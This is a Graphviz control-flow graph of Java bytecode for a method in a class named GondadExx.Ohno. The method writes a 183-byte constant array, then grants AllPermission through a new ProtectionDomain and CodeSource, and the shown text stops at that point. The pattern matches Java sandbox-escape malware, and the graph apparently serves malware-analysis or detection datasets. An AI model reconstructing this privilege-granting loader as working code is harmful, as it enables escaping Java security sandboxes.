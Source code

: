 digraph "" {
    "r0 := @this: GondadExx.Ohno"
    "push 183"
    "r0 := @this: GondadExx.Ohno"->"push 183";
    "newarray"
    "push 183"->"newarray";
    "store.r r6"
    "newarray"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "push 0"
    "load.r r6"->"push 0";
    "push -42"
    "push 0"->"push -42";
    "arraywrite.b"
    "push -42"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 1"
    "load.r r6"->"push 1";
    "push -105"
    "push 1"->"push -105";
    "push -105"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 2"
    "load.r r6"->"push 2";
    "push 122"
    "push 2"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 3"
    "load.r r6"->"push 3";
    "push 127"
    "push 3"->"push 127";
    "push 127"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 4"
    "load.r r6"->"push 4";
    "push 15"
    "push 4"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 5"
    "load.r r6"->"push 5";
    "push 8"
    "push 5"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 6"
    "load.r r6"->"push 6";
    "push 6"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 7"
    "load.r r6"->"push 7";
    "push 105"
    "push 7"->"push 105";
    "push 105"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 8";
    "push 33"
    "push 8"->"push 33";
    "push 33"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 9"
    "load.r r6"->"push 9";
    "push 54"
    "push 9"->"push 54";
    "push 54"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 10"
    "load.r r6"->"push 10";
    "push 16"
    "push 10"->"push 16";
    "push 16"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 11"
    "load.r r6"->"push 11";
    "push 27"
    "push 11"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 12"
    "load.r r6"->"push 12";
    "push 12"->"push 12";
    "push 12"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 13"
    "load.r r6"->"push 13";
    "push 13"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 14"
    "load.r r6"->"push 14";
    "push 84"
    "push 14"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 15";
    "push 22"
    "push 15"->"push 22";
    "push 22"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 16";
    "push 16"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 17"
    "load.r r6"->"push 17";
    "push 20"
    "push 17"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 18"
    "load.r r6"->"push 18";
    "push 29"
    "push 18"->"push 29";
    "push 29"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 19"
    "load.r r6"->"push 19";
    "push 19"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 20";
    "push 53"
    "push 20"->"push 53";
    "push 53"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 21"
    "load.r r6"->"push 21";
    "push 24"
    "push 21"->"push 24";
    "push 24"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 22";
    "push 22"->"push 16";
    "push 16"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 23"
    "load.r r6"->"push 23";
    "push 31"
    "push 23"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 24";
    "push 25"
    "push 24"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 25";
    "push 25"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 26"
    "load.r r6"->"push 26";
    "push 65"
    "push 26"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 27";
    "push -22"
    "push 27"->"push -22";
    "push -22"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 28"
    "load.r r6"->"push 28";
    "push -76"
    "push 28"->"push -76";
    "push -76"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 29";
    "push 34"
    "push 29"->"push 34";
    "push 34"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 30"
    "load.r r6"->"push 30";
    "push -27"
    "push 30"->"push -27";
    "push -27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 31";
    "push 106"
    "push 31"->"push 106";
    "push 106"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 32"
    "load.r r6"->"push 32";
    "push 32"->"push 9";
    "push 9"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 33";
    "push 83"
    "push 33"->"push 83";
    "push 83"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 34";
    "push 34"->"push 22";
    "push 22"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 35"
    "load.r r6"->"push 35";
    "push 120"
    "push 35"->"push 120";
    "push 120"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 36"
    "load.r r6"->"push 36";
    "push 36"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 37"
    "load.r r6"->"push 37";
    "push 37"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 38"
    "load.r r6"->"push 38";
    "push 38"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 39"
    "load.r r6"->"push 39";
    "push 39"->"push 10";
    "push 10"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 40"
    "load.r r6"->"push 40";
    "push 40"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 41"
    "load.r r6"->"push 41";
    "push 41"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 42"
    "load.r r6"->"push 42";
    "push 42"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 43"
    "load.r r6"->"push 43";
    "push 43"->"push 120";
    "push 120"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 44"
    "load.r r6"->"push 44";
    "push 44"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 45"
    "load.r r6"->"push 45";
    "push 45"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 46"
    "load.r r6"->"push 46";
    "push 46"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 47"
    "load.r r6"->"push 47";
    "push 107"
    "push 47"->"push 107";
    "push 107"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 48"
    "load.r r6"->"push 48";
    "push 48"->"push 33";
    "push 33"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 49"
    "load.r r6"->"push 49";
    "push 49"->"push 54";
    "push 54"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 50"
    "load.r r6"->"push 50";
    "push 61"
    "push 50"->"push 61";
    "push 61"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 51"
    "load.r r6"->"push 51";
    "push 51"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 52"
    "load.r r6"->"push 52";
    "push 52"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 53";
    "push 53"->"push 30";
    "push 30"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 54";
    "push 54"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 55"
    "load.r r6"->"push 55";
    "push 55"->"push 30";
    "push 30"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 56"
    "load.r r6"->"push 56";
    "push 63"
    "push 56"->"push 63";
    "push 63"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 57"
    "load.r r6"->"push 57";
    "push 57"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 58"
    "load.r r6"->"push 58";
    "push 58"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 59"
    "load.r r6"->"push 59";
    "push 59"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 60"
    "load.r r6"->"push 60";
    "push 60"->"push 61";
    "push 61"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 61";
    "push 61"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 62"
    "load.r r6"->"push 62";
    "push 62"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 63";
    "push 63"->"push 30";
    "push 30"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 64"
    "load.r r6"->"push 64";
    "push 64"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 65";
    "push -124"
    "push 65"->"push -124";
    "push -124"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 66"
    "load.r r6"->"push 66";
    "push 86"
    "push 66"->"push 86";
    "push 86"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 67"
    "load.r r6"->"push 67";
    "push -18"
    "push 67"->"push -18";
    "push -18"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 68"
    "load.r r6"->"push 68";
    "push 68"->"push 107";
    "push 107"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 69"
    "load.r r6"->"push 69";
    "push -14"
    "push 69"->"push -14";
    "push -14"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 70"
    "load.r r6"->"push 70";
    "push -52"
    "push 70"->"push -52";
    "push -52"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 71"
    "load.r r6"->"push 71";
    "push -97"
    "push 71"->"push -97";
    "push -97"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 72"
    "load.r r6"->"push 72";
    "push -123"
    "push 72"->"push -123";
    "push -123"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 73"
    "load.r r6"->"push 73";
    "push 73"->"push 120";
    "push 120"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 74"
    "load.r r6"->"push 74";
    "push 74"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 75"
    "load.r r6"->"push 75";
    "push 75"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 76"
    "load.r r6"->"push 76";
    "push 76"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 77"
    "load.r r6"->"push 77";
    "push 77"->"push 10";
    "push 10"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 78"
    "load.r r6"->"push 78";
    "push 78"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 79"
    "load.r r6"->"push 79";
    "push 79"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 80"
    "load.r r6"->"push 80";
    "push 80"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 81"
    "load.r r6"->"push 81";
    "push 123"
    "push 81"->"push 123";
    "push 123"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 82"
    "load.r r6"->"push 82";
    "push 82"->"push 10";
    "push 10"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 83";
    "push 83"->"push 9";
    "push 9"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 84";
    "push 84"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 85"
    "load.r r6"->"push 85";
    "push 85"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 86";
    "push 86"->"push 74";
    "push 74"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 87"
    "load.r r6"->"push 87";
    "push 87"->"push 16";
    "push 16"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 88"
    "load.r r6"->"push 88";
    "push 88"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 89"
    "load.r r6"->"push 89";
    "push 89"->"push 12";
    "push 12"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 90"
    "load.r r6"->"push 90";
    "push 90"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 91"
    "load.r r6"->"push 91";
    "push 91"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 92"
    "load.r r6"->"push 92";
    "push 92"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 93"
    "load.r r6"->"push 93";
    "push 93"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 94"
    "load.r r6"->"push 94";
    "push 94"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 95"
    "load.r r6"->"push 95";
    "push 95"->"push 22";
    "push 22"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 96"
    "load.r r6"->"push 96";
    "push 96"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 97"
    "load.r r6"->"push 97";
    "push 97"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 98"
    "load.r r6"->"push 98";
    "push 98"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 99"
    "load.r r6"->"push 99";
    "push 99"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 100"
    "load.r r6"->"push 100";
    "push 100"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 101"
    "load.r r6"->"push 101";
    "push 101"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 102"
    "load.r r6"->"push 102";
    "push 102"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 103"
    "load.r r6"->"push 103";
    "push 103"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 104"
    "load.r r6"->"push 104";
    "push 104"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 105";
    "push 105"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 106";
    "push 106"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 107";
    "push 107"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 108"
    "load.r r6"->"push 108";
    "push 108"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 109"
    "load.r r6"->"push 109";
    "push 109"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 110"
    "load.r r6"->"push 110";
    "push 110"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 111"
    "load.r r6"->"push 111";
    "push 111"->"push 23";
    "push 23"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 112"
    "load.r r6"->"push 112";
    "push 112"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 113"
    "load.r r6"->"push 113";
    "push 113"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 114"
    "load.r r6"->"push 114";
    "push 114"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 115"
    "load.r r6"->"push 115";
    "push 115"->"push 59";
    "push 59"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 116"
    "load.r r6"->"push 116";
    "push 116"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 117"
    "load.r r6"->"push 117";
    "push 117"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 118"
    "load.r r6"->"push 118";
    "push 118"->"push 23";
    "push 23"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 119"
    "load.r r6"->"push 119";
    "push 119"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 120";
    "push 120"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 121"
    "load.r r6"->"push 121";
    "push 121"->"push 40";
    "push 40"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 122";
    "push 122"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 123";
    "push 123"->"push 28";
    "push 28"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 124"
    "load.r r6"->"push 124";
    "push 124"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 125"
    "load.r r6"->"push 125";
    "push 125"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 126"
    "load.r r6"->"push 126";
    "push 126"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 127";
    "push 127"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 128"
    "load.r r6"->"push 128";
    "push 128"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 129"
    "load.r r6"->"push 129";
    "push 129"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 130"
    "load.r r6"->"push 130";
    "push 130"->"push 59";
    "push 59"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 131"
    "load.r r6"->"push 131";
    "push 131"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 132"
    "load.r r6"->"push 132";
    "push 132"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 133"
    "load.r r6"->"push 133";
    "push 133"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 134"
    "load.r r6"->"push 134";
    "push 134"->"push 3";
    "push 3"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 135"
    "load.r r6"->"push 135";
    "push -45"
    "push 135"->"push -45";
    "push -45"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 136"
    "load.r r6"->"push 136";
    "push -88"
    "push 136"->"push -88";
    "push -88"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 137"
    "load.r r6"->"push 137";
    "push -92"
    "push 137"->"push -92";
    "push -92"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 138"
    "load.r r6"->"push 138";
    "push -37"
    "push 138"->"push -37";
    "push -37"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 139"
    "load.r r6"->"push 139";
    "push -60"
    "push 139"->"push -60";
    "push -60"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 140"
    "load.r r6"->"push 140";
    "push 140"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 141"
    "load.r r6"->"push 141";
    "push 141"->"push 26";
    "push 26"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 142"
    "load.r r6"->"push 142";
    "push 142"->"push 118";
    "push 118"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 143"
    "load.r r6"->"push 143";
    "push 143"->"push 120";
    "push 120"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 144"
    "load.r r6"->"push 144";
    "push 144"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 145"
    "load.r r6"->"push 145";
    "push 145"->"push 123";
    "push 123"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 146"
    "load.r r6"->"push 146";
    "push 146"->"push 33";
    "push 33"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 147"
    "load.r r6"->"push 147";
    "push 147"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 148"
    "load.r r6"->"push 148";
    "push 148"->"push 127";
    "push 127"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 149"
    "load.r r6"->"push 149";
    "push 149"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 150"
    "load.r r6"->"push 150";
    "push 150"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 151"
    "load.r r6"->"push 151";
    "push 151"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 152"
    "load.r r6"->"push 152";
    "push 152"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 153"
    "load.r r6"->"push 153";
    "push 153"->"push 3";
    "push 3"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 154"
    "load.r r6"->"push 154";
    "push 154"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 155"
    "load.r r6"->"push 155";
    "push 155"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 156"
    "load.r r6"->"push 156";
    "push 156"->"push 105";
    "push 105"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 157"
    "load.r r6"->"push 157";
    "push 157"->"push 33";
    "push 33"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 158"
    "load.r r6"->"push 158";
    "push 158"->"push 54";
    "push 54"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 159"
    "load.r r6"->"push 159";
    "push 159"->"push 16";
    "push 16"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 160"
    "load.r r6"->"push 160";
    "push 160"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 161"
    "load.r r6"->"push 161";
    "push 161"->"push 12";
    "push 12"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 162"
    "load.r r6"->"push 162";
    "push 162"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 163"
    "load.r r6"->"push 163";
    "push 163"->"push 85";
    "push 85"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 164"
    "load.r r6"->"push 164";
    "push 164"->"push 22";
    "push 22"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 165"
    "load.r r6"->"push 165";
    "push 165"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 166"
    "load.r r6"->"push 166";
    "push 166"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 167"
    "load.r r6"->"push 167";
    "push 167"->"push 29";
    "push 29"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 168"
    "load.r r6"->"push 168";
    "push 168"->"push 85";
    "push 85"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 169"
    "load.r r6"->"push 169";
    "push 169"->"push 53";
    "push 53"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 170"
    "load.r r6"->"push 170";
    "push 170"->"push 24";
    "push 24"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 171"
    "load.r r6"->"push 171";
    "push 171"->"push 16";
    "push 16"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 172"
    "load.r r6"->"push 172";
    "push 172"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 173"
    "load.r r6"->"push 173";
    "push 173"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 174"
    "load.r r6"->"push 174";
    "push 174"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 175"
    "load.r r6"->"push 175";
    "push 175"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 176"
    "load.r r6"->"push 176";
    "push 176"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 177"
    "load.r r6"->"push 177";
    "push 177"->"push 10";
    "push 10"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 178"
    "load.r r6"->"push 178";
    "push 178"->"push 11";
    "push 11"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 179"
    "load.r r6"->"push 179";
    "push 179"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 180"
    "load.r r6"->"push 180";
    "push 180"->"push 4";
    "push 4"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 181"
    "load.r r6"->"push 181";
    "push 181"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 182"
    "load.r r6"->"push 182";
    "push 182"->"push 121";
    "push 121"->"arraywrite.b";
    "new java.security.Permissions"
    "arraywrite.b"->"new java.security.Permissions";
    "store.r r7"
    "new java.security.Permissions"->"store.r r7";
    "load.r r7"
    "store.r r7"->"load.r r7";
    "specialinvoke <java.security.Permissions: void <init>()>"
    "load.r r7"->"specialinvoke <java.security.Permissions: void <init>()>";
    "specialinvoke <java.security.Permissions: void <init>()>"->"load.r r7";
    "new java.security.AllPermission"
    "load.r r7"->"new java.security.AllPermission";
    "dup1.r"
    "new java.security.AllPermission"->"dup1.r";
    "specialinvoke <java.security.AllPermission: void <init>()>"
    "dup1.r"->"specialinvoke <java.security.AllPermission: void <init>()>";
    "virtualinvoke <java.security.Permissions: void add(java.security.Permission)>"
    "specialinvoke <java.security.AllPermission: void <init>()>"->"virtualinvoke <java.security.Permissions: void add(java.security.Permission)>";
    "new java.security.ProtectionDomain"
    "virtualinvoke <java.security.Permissions: void add(java.security.Permission)>"->"new java.security.ProtectionDomain";
    "store.r $r13"
    "new java.security.ProtectionDomain"->"store.r $r13";
    "load.r $r13"
    "store.r $r13"->"load.r $r13";
    "new java.security.CodeSource"
    "load.r $r13"->"new java.security.CodeSource";
